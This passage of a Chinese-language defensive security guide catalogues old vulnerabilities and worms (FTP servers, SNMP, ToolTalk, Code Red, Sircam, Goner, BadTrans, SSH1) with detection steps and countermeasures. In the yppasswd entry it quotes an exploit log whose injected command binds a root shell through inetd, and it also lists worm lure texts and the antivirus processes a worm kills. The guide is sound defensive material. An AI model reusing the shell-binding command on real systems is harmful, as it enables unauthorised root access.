  - 接下来的两个问题是内存泄漏，一个在 SIZE 命令中，另一个在 USER 命令中，可能被利用以消耗系统上过多的内存，导致拒绝服务。ProFTP 1.2.0 的 rc3 之前版本，包括所有预发布版本，受这两个漏洞影响。
  - 最后一个问题是格式字符串漏洞，可用于在系统上执行任意代码。此攻击在理论上是可能的，但在实践中很难执行。ProFTP 1.2.0 的 rc3 之前版本，包括所有预发布版本，可能受此漏洞影响。
- **MAPPING_CHDIR 缓冲区溢出。** WU-FTPD 版本 2.4.2-BETA18-VR4 至 2.5.0 之间，以及所有版本的 BeroFTPD 包含一个漏洞，可能允许攻击者通过创建精心选择名称的目录来覆盖静态内存并以 root 身份执行任意代码。为了利用此漏洞，攻击者需要拥有 FTP 服务器上可写目录的访问权限，无论是通过用户帐户还是通过匿名 FTP。此漏洞在 CERT 公告 99-13 中有描述。
- **消息文件缓冲区溢出。** 由于在消息文件中宏变量扩展时边界检查不当，攻击者可能覆盖堆栈并以 FTP 服务器的权限（通常是 *root*）执行任意命令。WU-FTPD 2.6.0 之前版本和所有版本的 BeroFTPD 存在此漏洞。攻击者需要能够控制消息文件的内容才能利用此漏洞。匿名用户是否具有此能力取决于 FTP 服务器的配置。此漏洞在 CERT 公告 99-13 中有描述。


 ## 漏洞攻击 27：Cisco IOS SNMP 访问

**漏洞。** 恶意用户可能能够查看或修改设备上的信息。

**受影响系统。** 未修复版本的 Cisco IOS 和 CatOS。

**入侵检测。** 入侵可能发生在团体字符串或内置团体字符串中，恶意用户可能查看或修改这些字符串。

**应对措施。** 将 Cisco IOS 或 CatOS 升级至修复版本（www.cisco.com/warp/public/707/ios-snmp-community-vulns-pub.shtml）。

## 漏洞攻击 28：Red Hat LDAP 漏洞

**漏洞。** 攻击者可以利用 LDAP 漏洞获得文件控制权。

**受影响系统。** Red Hat Linux 7.0 Alpha 和 i386 版本、7.1 Alpha、i386 和 ia64 版本，以及 7.2 i386 和 ia64 版本的系统中，LDAP 2.0.0 至 2.0.19 版本存在该漏洞。

**入侵检测。** 潜在攻击者可利用此漏洞更改目录中对象的非强制属性。攻击者可以使用空列表来删除对象的非强制属性，因为 OpenLDAP 2.0.0 至 2.0.19 版本不限制访问控制列表权限。

**应对措施。** 在应用勘误更新之前，应确保所有先前的勘误更新（针对您的系统）已应用。可以通过在每个受影响的服务器上执行 up2date 命令来启动 Red Hat Update Agent 交互式进程；也可以访问 Red Hat 网站，选择您的服务器，并为其安排勘误更新。可以使用 rpm -Fvh [filename] 命令来更新 RPM。可以使用 *.rpm 代替 [filename] 来完成多个 rpm 更新，但请确保要更新的 RPM 位于您指定 *.rpm 的目录中。

## 漏洞攻击 29：CDE ToolTalk 缺陷

**漏洞。** CDE ToolTalk RPC 数据库服务中的漏洞可能导致系统崩溃或特权访问。ToolTalk 允许应用程序跨主机和平台进行通信。它使用 ToolTalk RPC 数据库（rpc.ttdbserverd）来管理这些应用程序之间的通信。错误处理漏洞可能允许远程攻击者获取 rpc.ttdbserverd 进程的权限。这通常是 root 权限。

**受影响系统。** *NIX 各版本。

**入侵检测。** 由于 rpc.ttdbserver 未提供格式字符串说明符参数或充分的输入验证，当远程攻击者构造包含格式字符串说明符的 RPC 请求时，运行 ToolTalk 的系统可能会被攻陷。该请求可能允许覆盖特定内存位置，从而执行任意代码。如果 rpc.ttdbserverd 以 root 权限安装，远程攻击者可能获得 root 权限。

**应对措施。** 使用 $ rpcinfo -p *hostname* 命令来确定 rpc.ttdbserverd 是否正在运行。访问供应商网站以确认是否有可用补丁，并为您使用的 Linux 或 UNIX 版本应用适当的补丁。ToolTalk 数据库服务器（rpc.ttdbserverd）默认安装在许多 *NIX 或 Linux 版本中。如果不需要该服务，请将其禁用（但在执行此操作之前，请仔细审查禁用该服务的后果）。如果需要该服务，则仅允许需要访问的设备进行访问。使用防火墙（或具有端口过滤功能的路由器）阻止未授权访问。RPC 通常同时使用 TCP 和 UDP 的 111 端口。

## 漏洞攻击 30：持续的“红色代码”威胁

**漏洞。** “红色代码”蠕虫的两个变种可导致整个系统被完全攻陷。

**受影响系统。** 运行启用了 IIS 4.0 或 IIS 5.0 的 Microsoft Windows NT 4.0 的系统、运行 Microsoft Windows 2000（专业版、服务器版、高级服务器版、数据中心服务器版）的系统，以及运行 Microsoft Windows XP 测试版的系统。

**入侵检测。** 据信这些变种具有时效性，并于 2001 年 8 月 1 日 00:00 GMT 开始传播。“红色代码”蠕虫利用 Microsoft IIS 索引服务中的缓冲区溢出漏洞。尽管已有补丁可解决索引服务问题，但数据表明仍有数千个系统存在漏洞。这些变种在不同时间/日期执行不同活动。

- 从每月 1 日到 19 日，“红色代码”变种会尝试通过连接随机选择系统的 TCP 80 端口来传播。如果该系统正在运行 IIS 4.0 或 5.0 且未应用补丁，则很可能会被感染。

- 该蠕虫的一个副作用可导致处理该请求的 Cisco 600 系列 DSL 路由器停止转发数据包。

- 由于蠕虫试图传播，网络设备和路由器上的流量与处理量可能会明显增加。

- 从每月 20 日到 27 日，该蠕虫将针对特定 IP 地址 (198.137.240.91) 发起数据包洪泛拒绝服务攻击。

- 在第 27 天结束时，该蠕虫进入休眠状态，直到下个月 1 日。

感染可导致性能下降，直至拒绝服务和网页被篡改，并可能导致远程攻击者获得管理员权限（IIS 索引服务的权限）。

**应对措施。** 将系统从网络中移除，重新启动并应用适当的补丁。已知版本的“红色代码”蠕虫驻留内存，因此可以通过重启系统来清除。系统打完补丁后，最好也执行以下建议：

- “红色代码”试图通过 TCP 80 端口建立初始连接，因此请对所有不需要访问该端口的机器阻断该端口。这有助于降低遭受“红色代码”蠕虫攻击的风险。

- 在所有不需要 IIS 服务的机器上将其禁用。

- 该蠕虫可以感染多个系统，因此如果您有一台机器已被感染，请检查所有系统是否受到感染。运行最新的防病毒程序，并确保其保持最新。对所有系统应用适当的补丁。

## 漏洞攻击 31：LPRng 缺陷

**漏洞。** LPRng 未能丢弃附加组身份，可能导致未授权访问。

**受影响系统。** Red Hat Linux 7.0 Alpha 和 7.1 i386 版本。

**入侵检测。** LPRng 在初始化时丢弃了 uid 和 gid，但未能丢弃附加组。因此，LPRng 及其子进程可以保留初始化 LPRng 的进程的附加组。


 **应对措施：** 在应用勘误更新之前，请确保系统所有先前的勘误更新均已应用。更新代理可在每台受影响的服务器上运行，通过执行 up2date 命令启动 Red Hat Update Agent 交互式进程；或者您也可以访问 Red Hat 网站，选择您的服务器，并为其安排勘误更新。RPM 软件包可使用 `rpm -Fvh [filename]` 命令进行更新。多个 RPM 更新可使用 `*.rpm` 代替 `[filename]` 来完成，但请确保指定 `*.rpm` datum 的目录中只包含您想要更新的 RPM 软件包。

## 黑客攻击 32：Telnet 缓冲区溢出

**漏洞。** 源于 BSD 源码的 telnetd 中存在缓冲区溢出漏洞，可导致未授权的 root 访问。源于 BSD 源码的 telnetd 进程包含一个固定大小的缓冲区来存储 telrcv 的结果。由于该缓冲区未实现边界检查，如果接收到的回复大于缓冲区，则可能发生缓冲区溢出。

**受影响系统。** BSD。

**入侵检测。** 远程攻击者可利用此缓冲区溢出漏洞运行任意代码，从而使系统停止或获取 telnetd 进程的权限（通常为 root）。该漏洞存在于多个平台。

**应对措施。** 从操作系统制造商处应用适当的补丁。如果供应商没有补丁，可以尝试使用 BSD 源码补丁来解决该问题。此外，如果不需要该服务，请禁用它。仅允许需要访问该服务的设备进行访问，这也是良好的安全实践。可以通过防火墙（或支持端口过滤的路由器）阻止对该服务的访问。由于 telnet 服务使用 TCP 端口 23，阻止对该端口的访问可以降低风险。

## 黑客攻击 33：OpenServer calserver

**漏洞。** Calserver 是 SCO OpenServer 中的日历服务。该服务中的漏洞可能使系统受到威胁。

**受影响系统。** 未打补丁的 OpenServer 5.04 及 5.04 之前的版本。

**入侵检测。** Calserver 服务中的缓冲区溢出情况可能允许恶意用户以 root 权限执行任意命令。

**应对措施。** 应用制造商提供的适当补丁或升级到更高版本。

## 黑客攻击 34：BNC 攻击

**漏洞。** 您的系统可能已被攻击者通过安装名为 BNC 的黑客程序而受到威胁。

**受影响系统。** 所有系统。

**入侵检测。** 如果在您的系统上发现 BNC 程序，则很可能已被攻击者入侵。请注意，BNC 可能已被重命名为 *a* 或 *b*、*lpd*、*pine* 或 *–tsch*。

**应对措施。** 必须终止 BNC 程序。还应进行完整的系统检查，以确定黑客是如何获得系统访问权限的。

## 黑客攻击 35：Microsoft IIS 漏洞

**漏洞。** 某些 ASP 文件可能向未授权的远程用户授予文件访问权限。

**受影响系统。** Microsoft IIS 4.0。

**入侵检测。** CodeBrws.asp、Code.asp 和 showcode.asp 文件在其存在的同一逻辑磁盘上造成漏洞。这些漏洞可能使远程用户查看他们不应具有访问权限的文件。

**应对措施。** 如可能，请从以下目录中删除这些文件 CodeBrws.asp、Code.asp 和 showcode.asp：

- IIS_DIRECTORY\iisamples\Sdk\Asp\Docs\codebrws.asp
- IIS_DIRECTORY\iisamples\Exair\Howitworks\codebrws.asp
- IIS_DIRECTORY\iisamples\Exair\Howitworks\code.asp
- \Program_Files\Common_Files\System—System\Msadc\Samples\Selector\Show-code.asp

如果无法删除这些文件，请确保设置访问控制列表以指定谁应具有访问权限。也可以使用 Microsoft 提供的热修复补丁。

## 黑客攻击 36：IMAP 版本 < 4

**漏洞。** 缓冲区溢出情况可被利用以获取特权/root 访问权限。

**受影响系统。** IMAP 4.1 之前的版本。

**入侵检测。** 存在两个漏洞。第一个出现在 *NIX 系统上。要使协议运行，系统必须以 root 权限运行。此漏洞可能被利用以允许对系统进行特权访问。第二个漏洞也是缓冲区溢出情况，可能允许对系统进行特权访问，从而可以执行任意命令。任何拥有该系统电子邮件帐户的用户都可以通过获取用户 shell 来获得此访问权限。

**应对措施。** 从您的供应商处获取补丁。在服务器上运行最新版本的 IMAP。

## 黑客攻击 37：通过 Internet 的 NetBIOS/SMB

**漏洞。** 此漏洞允许从任何导出的已挂载文件系统修改或删除文件。服务器消息块 (SMB) 可以与 Sun 的网络文件系统 (NFS) 相媲美，它允许使用 NetBIOS 协议在网络上的共享文件系统。此漏洞使远程入侵者能够对已挂载文件系统上的文件进行特权访问，从而可能删除或更改文件。

**受影响系统。** 运行通过 Internet 的 NetBIOS 服务的系统。

**入侵检测。** 恶意用户可能能够删除或修改任何导出的已挂载文件系统中的文件。

**应对措施。** 解决此漏洞的方法是禁用该服务，或从您的边界防火墙和/或路由器阻止这些数据包。

## 黑客攻击 38：开放式 SMB 共享

**漏洞。** SMB 协议在网络上用于机器之间的共享文件目录时，会使系统面临漏洞。此漏洞可被利用以获取对共享目录的读取或读写访问权限。

**受影响系统。** Windows 9x、NT、OS/2、*NIX（运行 SAMBA）。

**入侵检测。** 恶意用户可能通过此漏洞入侵系统，从而能够通过 Internet 查看或写入共享目录。

**应对措施。** 禁用通过 Internet 的 SMB。如果不可行，请在可能的情况下分配权限。最好在 Windows 9x 等系统上使用用户访问模式而非共享访问模式。

## 黑客攻击 39：发现 Root Kit

**漏洞.** Root kit 被入侵者用于防止在其已入侵的系统上被检测到。

**受影响系统。** 发现 root kit 的 *NIX 系统。

**入侵检测.** 在发现 root kit 的系统中，它会替换基于 *NIX 的命令，如 *ls*、*pwd*、*tar*、*ps*、*ifconfig* 和 *netstat*。一旦安装了 root kit，系统管理员将极难查明入侵者的行踪。

**应对措施.** 重新安装操作系统。只有在能够明确确定备份时系统上未安装 root kit 的情况下，才能使用备份。

## 黑客攻击 40：可写 FTP 目录

**漏洞.** 匿名用户对 FTP 服务器具有可写访问权限。

**受影响系统.** 运行 FTP 的 Windows 或 *NIX 系统。

**入侵检测.** 当 FTP 主目录可写时，可能导致远程命令执行和文件替换。恶意用户还可能利用这些漏洞破坏系统。

**应对措施.** 确保 FTP 主目录以及系统文件和目录的所有者为管理员或 root 帐户。

## 黑客攻击 41：通过 Internet 的远程登录

**漏洞.** 未授权的远程用户可能获得对系统的 shell 访问权限。

**受影响系统.** 使用 rlogin 服务的系统。

**入侵检测.** 使用 rlogin 时，用户无需输入密码。

**应对措施.** 使用密码加密版本的程序。验证该程序的主机文件仅包含可信主机。

## 黑客攻击 42：通过 Portmapper 的 NFS 导出

**漏洞.** 存在一个允许绕过 NFS 导出限制的漏洞。
[/415]</content>


**受影响系统。** 使用 NFS export 的系统。

**入侵检测。** 当恶意用户的 mount 守护进程请求被转发到 mount 守护进程时，NFS export 限制可以被绕过，而不是请求直接发送到 mount 守护进程。

**应对措施。** 联系供应商获取补丁。其他保护系统的方法包括：使用不允许 mount 转发请求的 portmapper；在路由器上阻断 2049 和 111 端口；以及尽可能将文件系统导出设置为只读。

## 黑客攻击 43：MDaemon 漏洞

**漏洞。** IMAP 和 Web 配置服务中可能发生缓冲区溢出，导致多个网络服务崩溃，并最终造成 IMAP、POP 或 SMTP 的拒绝服务。

**受影响系统。** 运行 MDaemon 3.5.6 之前版本的系统。

**入侵检测。** 如果您使用的 MDaemon 版本早于 3.5.6，则存在风险。

**应对措施。** 将 MDaemon 升级至 3.5.6 或更高版本，可从 mdaemon.deerfield.com/download/getmdaemon.cfm 获取。

## 黑客攻击 44：FTP 服务器目录遍历

**漏洞。** 该漏洞允许匿名用户读取任意文件。

**受影响系统。** 各种 FTP 服务器。

**入侵检测。** 系统可能通过使用 "..." 或 ".../" 等路径从 FTP 根目录之外的目录获取文件而被利用。

**应对措施。** 联系您的 FTP 服务器供应商获取该漏洞的修复程序。

## 黑客攻击 45：红色代码 II

**漏洞。** 该蠕虫将 %windir%\CMD.EXE 复制到多个位置，这会在受感染服务器上打开后门，使系统面临攻击。它还会创建一个特洛伊木马版本的 Internet Explorer。一旦该特洛伊木马被执行，注册表将被修改。IIS 使 C: 和 D: 目录面临可能的攻击；只需执行一次受感染的 Internet Explorer 即可做到，使系统处于这种脆弱状态，直到采取应对措施。

**受影响系统。** 所有版本的 Microsoft Windows 2000 都面临此攻击风险。

**入侵检测。** 尚未针对 idq.dll 中未检查缓冲区漏洞打补丁的服务器，或已移除 ISAPI 脚本映射的服务器。

**应对措施。** 从 www.microsoft.com/technet/security/bulletin/MS00-052.asp 应用适当的 Microsoft IIS 补丁。

## 黑客攻击 46：Solaris yppasswd 缓冲区溢出

**漏洞。** 缓冲区溢出漏洞可能使攻击者利用 Solaris 2.6、2.7、2.8 机器上 yppasswd 服务中未检查的缓冲区。

**受影响系统：** 运行 Solaris 2.6、2.7、2.8 的系统。

**入侵检测：** 使用 "rpcinfo -p | grep 100009" 或 "ps -ef | grep yppasswd"。如果看到输出，您的系统存在此漏洞。

```
Exploit log message:
May  9 13:56:56 victim-system yppasswdd[191]: yppasswdd: user
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@L
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@P"
`"?-"?-"?-"? ; /bin/sh-c echo 'rje stream tcp nowait root /bin/sh sh
-i'>z;/usr/sbin/inetd -s z;rm z;; does not exist
```

```
Symptoms: two inetds running:

victim-system:# ps -ef | grep inetd
    root   209       1  0  Apr 30 ?        0:18 /usr/sbin/inetd -s -t
    root  8297       1  0  13:56:56 ?     0:00 /usr/sbin/inetd -s z
```

```
Effect: root shell on port 77/TCP

she-ra:$ telnet victim-system rje
Trying 130.65.86.56...
Connected to victim-system.mathcs.sjsu.edu.
Escape character is '^]'.
#
```

**应对措施：** 通过防火墙保护您的 NIS 系统免受 Internet 攻击，或禁用 yppasswd。

## 黑客攻击 47：Website Pro 缓冲区溢出

**漏洞。** 由于缓冲区溢出条件，该漏洞可能允许在 Web 服务器上执行任意命令。

**受影响系统。** O'Reilly 的 Website Pro 2.4。

**入侵检测。** 攻击者可能通过向服务器发送长请求（如 GET 请求）来执行任意命令。

**应对措施。** 升级至 Website Pro 2.5 或更高版本。

## 黑客攻击 48：Gopher 漏洞

**漏洞。** 由于 Gopher 服务器认证组件中的缓冲区溢出条件，恶意用户可能获取系统的 root 权限。

**受影响系统。** 使用 Gopher 的系统可能存在漏洞。

**入侵检测。** 如果您需要 <|reserved_200005|> 认证且未使用最新版本的 Gopher，您可能存在风险。如果您未使用 Gopher 服务且该服务已启用，您也可能存在风险。

**应对措施。** 有多种方法可以防止被利用。如果您在使用带认证的 Gopher 服务，请务必安装最新版本。如果您在使用无需认证的 Gopher 服务，您可能希望禁用认证。如果不使用 Gopher 服务，应在启动脚本中禁用它。

## 黑客攻击 49：X-Mail 漏洞

**漏洞。** CTRL Server 用于邮件服务器管理。然而，X-Mail 0.67 中 CTRL Server 工具的缓冲区溢出可能允许恶意远程用户执行任意命令。

**受影响系统。** 使用 X-Mail 0.67 及更早版本的系统。

**入侵检测。** 如果您使用的 X-Mail 版本为 0.67 或更早，您可能存在漏洞。

**应对措施。** 务必使用 0.67 之后的 X-Mail 版本，并尽可能继续更新，可从 http://xmailserver.org/ 获取。

## 黑客攻击 50：Tinyproxy 漏洞

**漏洞。** tinyproxy 中存在漏洞，缓冲区溢出可能使恶意用户发起拒绝服务攻击。恶意用户也可能执行任意代码。

**受影响系统。** 使用 tinyproxy 1.3.3a 之前版本的系统。

**入侵检测。** 如果您的版本早于 1.3.3a，您存在漏洞。

**应对措施。** 如果您在使用 tinyproxy，请确保已安装最新版本；并卸载任何先前版本。最新版本可在 http://tinyproxy.sourceforge.net/ 找到。

## 黑客攻击 51：Sircam

**漏洞。** W32/Sircam 蠕虫影响所有版本的 Windows。它包含自己的 SMTP，允许其发送消息。

**受影响系统。** 运行任何版本 Windows 的所有系统。

**入侵检测。** 当包含蠕虫的电子邮件附件被执行时（自动或用户手动执行），或当蠕虫复制自身到未受保护的网络共享时，机器可能感染 W32/Sircam。蠕虫初始化时，至少使用不同的文件名将其自身复制到两个位置，回收文件夹（recycled\SirC32.exe）、系统文件夹（%system%\Scam32.exe），以及可能以 ScMx32.exe 复制到系统文件夹。

Sircam 至少进行四项注册表修改，使其在不同条件下被执行。它还在桌面文件夹和用户个人文件夹中搜索 "personal" .doc、.xls 和 .zip 文件。蠕虫附着自身到这些文件，并将它们存储在回收文件夹中，原始扩展名在前，"可执行"扩展名在后。该文件是先前有效文件和 W32/Sircam 蠕虫的组合。当文件打开时，它被复制到回收文件夹和 %temp%（通常是 C:\windows\temp）目录。与感染过程同时，先前有效文件的内容也会被显示，使用适当的应用程序给附件是有效文件的印象。

蠕虫搜索所有 Windows 通讯簿文件 (*.wab) 的内容，并在注册表项 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Cache 引用的文件夹中搜索包含电子邮件地址的文件。一旦蠕虫获取地址，它将它们存储在 s??.dll 或 sc??.dll 中。这些文件被 Sircam 隐藏在 %system% 文件夹中。

利用这些信息，蠕虫制作更多电子邮件。邮件正文可能是英文或西班牙文。正文格式如下。

### 英文

Hi! How are you?

[middle line]

See you later. Thanks.

### 西班牙文

Hola como estas?

[middle line]

Nos vemos pronto, gracias.

中间行将包含以下语句之一。

### 英文

- I send you this file in order to have your advice.
- I hope you like the file that I send to you.
- I hope you can help me with this file that I send.
- This is the file with the information you asked for.

### 西班牙文

- Te mando este archivo para que me des tu punto de vista.
- Espero te guste este archivo que te mando.
- Espero me puedas ayudar con el archivo que te mando.
- Este es el archivo con la informacion que me pediste.

邮件将附带一个文件，其文件名与主题行相同，并包含两个文件扩展名。第一个扩展名将是 .doc、.xls 或 .zip，第二个扩展名将是 .bat、.com、.exe、.lnk 或 .pif。例如，如果邮件主题是 "cookies"，附件文件名将是 *cookies*，扩展名将是 .doc.exe，因此完整的附件名称将是 cookies.doc.exe。（注意，一些防病毒厂商还指出，可能使用除 .doc、.xls 和 .zip 之外的其他扩展名，包括 .GIF、.JPG、.JPEG、.MPEG、.MOV、.MPG、.PDF、.PNG 和 .PS。）然后蠕虫尝试使用受感染机器的邮件系统发送这些消息。如果此操作不成功，蠕虫尝试使用其他 SMTP 中继。

Sircam 还可以通过写入权限的网络共享感染其他机器，通过复制文件到这些共享并修改 autoexec.bat 文件，或通过


重命名文件并将其替换为同名文件，该文件能够执行 Sircam 蠕虫并调用已重命名的（仍然有效的）文件。

**对策。** 尽可能关闭电子邮件客户端中的自动预览选项。确保使用充分且最新的病毒防护。教育终端用户养成良好的电子邮件使用习惯：指导他们在不认识发件人或标题看起来与工作无关时保持谨慎，如果邮件带有附件，打开时也要小心。最后，使用能够删除已知恶意流量和消息类型的防火墙产品。

## 黑客攻击 52：Goner

**漏洞。** W32/Goner 是一种可以通过电子邮件或 W32/Goner 发起的文件传输进行传播的蠕虫。该蠕虫会扫描用户计算机上的 Microsoft Outlook 通讯簿和 ICQ 联系人列表。利用从通讯簿中获取的信息，它会向通讯簿中找到的所有用户发送电子邮件。它使用 ICQ 联系人列表尝试与任何在线用户发起文件传输。如果在线用户接受文件传输请求，W32/Goner 就会向该用户发送自身的副本。

**受影响系统。** 安装了 Outlook 的 Windows 系统，以及安装了 MS Office 和 ICQ 的 Windows 系统。

**入侵检测。** 当用户通过电子邮件收到该蠕虫时，消息将呈现以下格式：

| 主题 | Hi! |
| 正文 | How are you? |
| | When I saw this screen saver, I immediately thought about you |
| | I am in a harry, I promise you will love it! |

该消息还会包含一个名为 gone.scr 的文件附件。这使用户误以为该蠕虫是一个有效的屏幕保护程序，而实际上它是一个恶意文件。当该文件被执行时，会显示一个启动画面和一条错误消息。

此外，一旦执行，该蠕虫会修改受感染计算机的注册表，以便在后续重启时自动执行。它将 scr.exe 的副本放置在 \windows\system32 或 \winnt\system32 目录中。

Goner 还会尝试终止正在运行的防病毒程序的进程并删除相关文件。它还特别针对第 468 页列出的文件/程序。如果识别出任何这些文件，该进程将被停止，蠕虫会尝试删除找到该文件的目录中的所有文件。如果无法删除文件，它还可能在重启时创建 WININIT.INI 文件，并使用 WININIT.INI 文件尝试删除这些文件。

| _AVP32.EXE | ESAFE.EXE | TDS2-98.EXE |
| _AVPCC.EXE | FEWEB.EXE | TDS2-NT.EXE |
| _AVPM.EXE | FRW.EXE | VP32.EXE |
| APLICA32.EXE | ICLOAD95.EXE | VPCC.EXE |
| AVCONSOLE.EXE | ICLOADNT.EXE | VPM.EXE |
| AVP.EXE | ICMON.EXE | VSECOMR.EXE |
| AVP32.EXE | ICSUPP95.EXE | VSHWIN32.EXE |
| AVPCC.EXE | ICSUPPNT.EXE | VSSTAT.EXE |
| AVPM.EXE | LOCKDOWN2000.EXE | VW32.EXE |
| CFIADMIN.EXE | PCFWallIcon.EXE | WEBSCANX.EXE |
| CFIAUDIT.EXE | PW32.EXE | ZONEALARM.EXE |
| CFINET.EXE | SAFEWEB.EXE | |

**对策。** 尽可能关闭电子邮件客户端中的自动预览选项。确保使用充分且最新的病毒防护。教育终端用户养成良好的电子邮件使用习惯：指导他们在不认识发件人或标题看起来与工作无关时保持谨慎，如果邮件带有附件，打开时也要小心。如果对消息来源有任何疑问，在执行附件之前先扫描消息及其附件。最后，使用能够删除已知恶意流量和消息类型的防火墙产品。

## 黑客攻击 53：SSH1 CRC-32 补偿攻击检测器中的漏洞

**漏洞。** SSH1 协议存在漏洞，可能允许攻击者以 SSH 守护进程的权限执行任意代码。通过针对补偿攻击检测器发起暴力破解攻击，可能实现完整的系统入侵。

**受影响系统。** 使用 SSH1 协议的系统。

**入侵检测。** 如果针对补偿攻击检测器发起暴力破解攻击，攻击者可能获得受影响计算机的完全访问权限。报告显示，系统日志中可能出现多条类似以下内容的 messages：

```
hostname sshd[xxx]: Disconnecting: Corrupted check bytes on input
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network attack detected
```

```
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network attack detected
```

一旦系统被入侵，报告显示会安装木马、设计用于查找其他易受攻击系统的网络扫描设备，以及其他用于隐藏入侵者行为并允许未来访问的项目。

**对策。** 查看制造商网站获取最新安全信息。尽可能升级到最新版本的 SSH。升级后，确保使用 SSHv2，因为 SSH2 可能使用 SSH1 的实现信息。如果无法升级，请为正在使用的 SSH 版本应用所有最新补丁。与许多服务一样，如果不需要 SSH，请拒绝访问该服务。

## 黑客攻击 54：BadTrans

**漏洞。** W32/BadTrans 蠕虫是一种带有文件附件的电子邮件蠕虫，如果打开该附件，可能允许执行任意代码；该蠕虫还会记录按键信息。

**受影响系统。** 运行 Microsoft Windows 95、98、98SE、ME、NT 和 2000 的系统。

**入侵检测。** 附件的文件名因电子邮件而异。该文件有两个文件扩展名：一个是实际扩展名，另一个用于使 Windows 隐藏真实的文件扩展名。这可能使文件显示为不同的文件类型。执行时，蠕虫会将自身副本作为 kernel32.exe 写入 \windows 目录。如果该文件作为系统服务运行，将不会在默认任务列表中显示。当 kernel32 文件被执行时，它会再写入两个文件，都位于 \windows\system 目录。这些文件是 kdll.dll 和 cp_25389.nls。kdll.dll 文件允许将按键记录到 cp_25389.nls 文件。注册表也会被修改，如下所示，以确保蠕虫在后续重启时启动："HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce\Kernel32 = "kernel32.exe""。

该蠕虫还会将自身副本发送给未回复电子邮件的用户，或基于从受感染系统上其他文件获取的信息发送。该病毒的变体还可以在受感染系统上放置木马。BadTrans 尝试利用影响运行 Microsoft Windows 操作系统 PC 的两个已知漏洞来实现这一切。其中之一是允许某些 MIME 头执行任意代码的漏洞。即使在已针对 MIME 漏洞打补丁的系统上，仍有可能通过执行附件来感染机器。如果用户手动启动附件，或者用户对要求确认执行附件的消息回答"是"，计算机将被感染。

**对策。** 尽可能从 windowsupdate.microsoft.com 升级到最新版本的 Internet Explorer。如果不可能，建议将计算机至少升级到 5.0 版本，并应用所有最新补丁，包括标记为"嵌入式 MIME 类型的自动执行"的补丁。尽可能关闭电子邮件客户端中的自动预览选项。确保使用充分且最新的病毒防护。教育终端用户养成良好的电子邮件使用习惯：指导他们在不认识发件人或标题看起来与工作无关时保持谨慎，如果邮件带有附件，打开时也要小心。最后，使用能够删除已知恶意流量和消息类型的防火墙产品。

## 黑客攻击 55：PHP 文件上传中的多个漏洞

**漏洞。** PHP 是一种可在广泛 Web 平台上使用的脚本语言。该语言中的 php_mime_split 函数可能允许入侵者获得特权访问（Web 服务器的权限）。这位不速之客随后可以在设备上执行任意代码，造成诸多破坏。

**受影响系统。** 使用 PHP 脚本语言的 Web 平台。

**入侵检测。** 利用 Web 服务器的权限，潜在的不法分子可以执行任意代码，这可能导致执行非预期操作，甚至可能导致 Web 服务器不可用，这被归类为 DoS 攻击。

**对策。** 建议升级到 4.1.2 版本。如果无法升级，可根据正在运行的 PHP 版本（3.0 或更高版本）获取相应的补丁。如果应用补丁不可行，可以使用 php.ini 文件中的 file_uploads=off 命令禁用文件上传支持。CVS 版本 4.20-dev 的用户目前不受影响。

PHP 4.1.2 版本的升级可从 www.php.net/do_download.php?download_file=php-4.1.2.tar.gz 获取。如果无法升级，请按照 www.php.net/downloads.php 的说明应用补丁：

对于 PHP 4.10/4.11：
www.php.net/do_download.php?download_file=rfc1867.c.diff-4.1.x.gz

对于 PHP 4.06：
www.php.net/do_download.php?download_file=rfc1867.c.diff-4.0.6.gz


对于 PHP 3.0：
www.php.net/do_download.php?download_file=mime.c.diff-3.0.gz

## 黑客攻击 56：Microsoft Internet Explorer 中的缓冲区溢出

**漏洞。** 伪造的证书声称来自微软公司，会呈现给用户。如果用户接受了该证书，攻击者可能能够接管系统。

**受影响系统。** 任何使用由微软公司签名的代码的系统。

**入侵检测。** 这些虚假证书由 VeriSign 商业软件发行商颁发给微软公司，日期和序列号如下：01/29/2001–01/30/2002, 1B51 3724 399C 9254 CD42 4637 996A，以及 01/30/2001–01/31/2002, 750E 40FF 99F0 47ED F556 C708 4EB1 ABFD。任何在 01/29/2001 和 01/30/2002 收到的证书都不应执行，因为它们是伪造的。

**应对措施。** 应用适当的供应商补丁，可从 www.microsoft.com/technet/security/bulletin/MS02-005.asp 获取。

## 黑客攻击 57：简单网络管理协议多种实现中的多个漏洞

**漏洞。** SNMP 用于管理和监控支持 SNMP 的网络设备。这些设备可以包括"可管理"的路由器、交换机、文件服务器、CSU/DSU、工作站、存储区域网络设备（SAN）以及许多其他设备。运行 SNMP 协议的设备向启用 SNMP 的监控设备发送陷阱消息。这些监控设备解释陷阱，以便对获取的信息进行评估、采取行动和报告。

**受影响系统。** 多种启用 SNMP 的设备。

**入侵检测。** SNMP 使用社区字符串就像使用用户ID/密码一样。通常，有三种类型的社区字符串：只读、读写和 SNMP 陷阱。这些字符串不仅帮助 SNMP 设备确定谁（哪个字符串）可以访问它们，还允许什么类型的访问（只读、读写或 SNMP 陷阱信息）。许多制造商的使用 SNMP 的设备存在多个漏洞，不同的设备可能存在不同的漏洞。漏洞可能导致（但不限于）拒绝服务、未授权访问、系统停止/重启以及配置控制。某些漏洞可能不需要使用社区字符串。此外，许多设备出厂时启用了"public"只读社区字符串，如果不从默认值更改，至少可以使设备对任何使用"public"字符串的设备"可见"，包括未授权用户。

由于此漏洞影响许多供应商，首要建议是咨询您的供应商。尽管如此，还是有一些通用准则需要遵循：

- 如果不使用 SNMP，则禁用它。如果正在使用，应用适当的补丁（咨询供应商）。
- 将字符串从默认值更改，然后确保已完成并在所有需要通信和共享信息的设备上保持一致。
- 为 SNMP 流量使用单独的管理网络，而不是允许其在生产网络上运行。
- 仅从可信来源过滤入站和出站 SNMP 流量。
- 在实施任何更改之前，确保计划经过深思熟虑。

## 黑客攻击 58：Myparty

